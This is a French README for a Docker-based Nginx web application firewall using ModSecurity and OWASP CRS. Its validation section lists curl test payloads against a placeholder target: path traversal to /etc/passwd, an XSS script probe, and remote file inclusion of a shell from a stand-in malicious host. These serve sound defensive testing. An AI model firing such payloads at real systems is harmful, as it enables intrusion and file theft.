

<div align="center">

# Secure Nginx WAF (ModSecurity v3 + OWASP CRS)


</div>

---

Ce projet fournit une infrastructure **Reverse Proxy Nginx durcie**, intégrant **ModSecurity v3** et le jeu de règles **OWASP Core Rule Set (CRS)**.

Il est conçu pour protéger les services backend (Plex, API, Sites Web) contre le TOP 10 OWASP et les scans automatisés (SQLi, XSS, LFI, RFI, Shellshock, etc.). L'environnement est containérisé via Docker.

## Table des matières

1. [Introduction](#secure-nginx-waf-modsecurity-v3--owasp-crs)
2. [Architecture du Projet](#architecture-du-projet)
3. [Installation & Lancement du Projet](#installation--lancement-du-projet)
   - [Installation docker](#0-installation-docker)
   - [Récupération des sources](#1-récupération-des-sources)
   - [Initialisation de l'environnement](#2-initialisation-de-lenvironnement)
   - [Démarrage du docker-compose](#3-démarrage-du-docker-compose)
4. [Ajouter un nouveau Domaine (Vhost)](#ajouter-un-nouveau-domaine-vhost)
5. [Validation & Tests d'Intrusion/Audit (WAF)](#validation--tests-dintrusionaudit-waf)
   - [Batteries de Tests (OWASP Top 10)](#1-batteries-de-tests-owasp-top-10)
     - [Path Traversal / LFI](#path-traversal--lfi)
     - [Injection XSS (Cross-Site Scripting)](#injection-xss-cross-site-scripting)
     - [Remote File Inclusion (RFI)](#remote-file-inclusion-rfi)
6. [Architecture & Fonctionnement du WAF](#architecture--fonctionnement-du-waf)
7. [Création de Règles Custom (Virtual Patching)](#création-de-règles-custom-virtual-patching)
   - [Exemple : Liste Noire d'IP (Blacklist)](#exemple--liste-noire-dip-blacklist)
   - [Fichier de configuration](#fichier-de-configuration)
8. [Star History](#star-history)
9. [Documentation Officielle](#documentation-officielle)

## Architecture du Projet

```text
.
├── config/
│   ├── custom/
│   │   ├── html/
│   │   │   └── error-pages/
│   │   │       ├── 401.html
│   │   │       ├── 404.html
│   │   │       └── 50x.html
│   │   └── snippets/
│   │       └── error-pages.conf
│   ├── modsec/
│   │   └── modsecurity.conf
│   ├── nginx/
│   │   └── conf.d/
│   │       ├── 00-geoip.conf
│   │       ├── 01-log_enriched.conf
│   │       └── 02-default.conf
│   └── nginx.conf
├── docker-compose.yml
├── Dockerfile
├── .dockerignore
├── entrypoint.sh
├── Makefile
└── setup.sh
```
## Installation & Lancement du Projet

Ce projet utilise un **Makefile** pour standardiser le déploiement. Il prépare l'environnement (structure des dossiers, permissions) avant que Docker ne prenne le relais.

### 0. Installation docker

[](https://github.com/s4dic/dockerautoinstall)


### 1. Récupération des sources

Positionnez-vous dans votre dossier de travail habituel :

```bash
git clone https://github.com/1posix/nginx-waf-docker.git
cd nginx-waf-docker
```

### 2. Initialisation de l'environnement

Lancez la commande d'installation. Elle va exécuter le script de setup, créer les répertoires manquants (logs, conf.d, etc.) et fixer les permissions nécessaires pour que le conteneur puisse écrire ses logs

```bash
make install
```
### 3. Démarrage du docker-compose

Lancez simplement le fichier YAML pour démarrer le WAF

```bash
docker-compose up -d
```

## Ajouter un nouveau Domaine (Vhost)

Pour déclarer un nouveau service protégé, créez un fichier `.conf` dans le dossier `config/nginx/conf.d/` (par exemple `config/nginx/conf.d/site.conf`).

Voici un **modèle de production** basé sur une configuration Plex. Il inclut la gestion des websockets, l'interception des erreurs backend, le GeoIP et le WAF.

```nginx
# 1. Définition du Backend (Keepalive & Failover)
upstream backend_plex {
    server 10.0.50.10:32400 max_fails=3 fail_timeout=30s;
    keepalive 32;
}

server {
    listen 4443;
    listen [::]:4443;
    server_name plex.site.com;

    # 2. Logs Enrichis pour le WAF
    access_log /var/log/nginx/plex-access.log waf_enriched;
    error_log /var/log/nginx/plex-error.log warn;

    # 3. Activation de ModSecurity
    modsecurity on;
    modsecurity_rules_file /etc/nginx/modsec/modsecurity.conf;

    # 4. Masquage des erreurs du Backend
    include /etc/nginx/snippets/error-pages.conf;
    proxy_intercept_errors on;

    # 5. Sécurité & Limites
    limit_req zone=general burst=50 nodelay;
    limit_conn addr 20;
    client_max_body_size 100M;

    # Timeouts étendus pour le streaming
    proxy_connect_timeout 60s;
    proxy_send_timeout 300s;
    proxy_read_timeout 300s;

    # 6. Gestion Real-IP (Derrière un autre proxy/LB)
    # Adaptez l'IP source selon votre infra (Gateway, Cloudflare, etc.)
    set_real_ip_from 172.16.100.1;
    real_ip_header X-Forwarded-For;
    real_ip_recursive on;

    location / {
        proxy_pass http://backend_plex;
        proxy_set_header Host  $ host;
        proxy_set_header X-Real-IP  $ remote_addr;
        proxy_set_header X-Forwarded-For  $ proxy_add_x_forwarded_for;
        proxy_set_header X-Forwarded-Proto  $ scheme;
        
        # Support Websockets (Vital pour Plex)
        proxy_http_version 1.1;
        proxy_set_header Upgrade  $ http_upgrade;
        proxy_set_header Connection  $ http_connection;
        proxy_buffering off;

        # Blocage GeoIP (configuré dans config/nginx/conf.d/00-geoip.conf)
        if ($block_country) {
            return 403;
        }
    }

    # Protection des fichiers cachés
    location ~ /\. {
        deny all;
        access_log off;
    }
}
```

Cette configuration constitue un exemple de base ; vous pouvez adopter une approche totalement différente selon la situation et vos besoins.

## Validation & Tests d'Intrusion/Audit (WAF)

Une fois le conteneur lancé, il est impératif de valider que le moteur ModSecurity intercepte bien les payloads malveillants. Utilisez `curl` depuis une machine externe ou le shell de l'hôte.

### 1. Batteries de Tests (OWASP Top 10)

Lancez ces commandes en remplaçant `TARGET` par votre IP ou Domaine.

#### Path Traversal / LFI
Tentative d'accès aux fichiers système (`/etc/passwd`).
```bash
curl -I "https://TARGET/index.php?file=../../../../etc/passwd"
```
Réponse attendu : ```HTTP/1.1 403 Forbidden```

---

#### Injection XSS (Cross-Site Scripting)
Tentative de détection des réponses XSS.
```bash
curl -i "https://TARGET/search?q=<script>alert('XSS')</script>"
```
Réponse attendu : ```HTTP/1.1 403 Forbidden```

---

#### Remote File Inclusion (RFI)
Tentative d'inclusion d'un fichier distant malveillant sur le serveur cible.
```bash
curl -i "https://TARGET/index.php?page=http://malicious.com/shell.txt"
```
Réponse attendu : ```HTTP/1.1 403 Forbidden```

## Architecture & Fonctionnement du WAF

Le WAF n'est pas une "boite noire". C'est un assemblage de couches (Layers) où chaque composant a un rôle précis dans le filtrage HTTP (Layer 7).



## Création de Règles Custom (Virtual Patching)


### Exemple : Liste Noire d'IP (Blacklist)

Cette règle permet de bloquer des adresses IP individuelles ou des sous-réseaux entiers de manière permanente. Elle s'exécute en phase 1 (avant tout traitement de la requête) pour garantir une performance optimale. Vous êtes libre de créer vos propres règles personnalisées pour gérer votre infrastructure.

### Fichier de configuration

**Emplacement :** `config/owasp-crs/rules/9100-custom-blacklist.conf`

```nginx
# ============================================
# BLACKLIST IP PERSONNALISÉE
# ID: 9100
# ============================================

# --- BLACKLIST MANUELLE ---
# Bloque les IPs individuelles : 203.0.113.42 (attaquant connu)
# Bloque le sous-réseau : 192.0.2.0/24 (De 192.0.2.0 à 192.0.2.255) - Datacenter suspect
# Bloque le sous-réseau : 185.220.101.0/24 (Nœuds TOR exit connus)
SecRule REMOTE_ADDR "@ipMatch 203.0.113.42,192.0.2.0/24,185.220.101.0/24" \
    "id:9100,\
    phase:1,\
    deny,\
    status:403,\
    log,\
    msg:'ACCES REFUSE : IP blacklistee manuellement - Activite malveillante detectee',\
    logdata:'IP bloquee: %{REMOTE_ADDR} | User-Agent: %{REQUEST_HEADERS.User-Agent}',\
    severity:'CRITICAL',\
    tag:'CUSTOM/BLACKLIST/MANUAL',\
    tag:'SECURITY/IP-BLOCK',\
    setvar:'tx.anomaly_score=+5',\
    setvar:'ip.blocked=1'"
```

## Star History

<a href="https://www.star-history.com/#1posix/nginx-waf-docker&type=timeline&legend=top-left">
 <picture>
   <source media="(prefers-color-scheme: dark)" srcset="https://api.star-history.com/svg?repos=1posix/nginx-waf-docker&type=timeline&theme=dark&legend=top-left" />
   <source media="(prefers-color-scheme: light)" srcset="https://api.star-history.com/svg?repos=1posix/nginx-waf-docker&type=timeline&legend=top-left" />
   
 </picture>
</a>


Si ce projet vous aide à sécuriser votre infra, merci de laisser une étoile ⭐. C'est le seul carburant de l'Open Source.

---

<div align="center">

### Documentation Officielle

<a href="https://nginx.org/en/docs/">
  
</a>
<a href="https://github.com/owasp-modsecurity/ModSecurity/wiki">
  
</a>
<a href="https://coreruleset.org/docs/">
  
</a>

</div>

---

<div align="center">

[](https://github.com/1posix)

</div>

